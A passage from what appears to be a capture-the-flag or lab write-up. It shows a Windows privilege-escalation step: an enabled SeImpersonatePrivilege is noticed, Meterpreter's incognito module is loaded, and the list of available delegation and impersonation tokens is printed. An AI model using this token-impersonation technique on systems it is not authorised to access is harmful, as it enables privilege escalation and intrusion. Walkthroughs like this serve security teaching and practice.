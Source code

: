 You can notice we have the privilege `SeImpersonatePrivilege` set to `Enabled`. We may be able to impersonate another user. Let's go back to our meterpreter shell 
and use `load incognito` to load the module we will use to impersonate other users. We can now list available tokens by using `list_tokens -g` :  
```
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WinDefend
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
```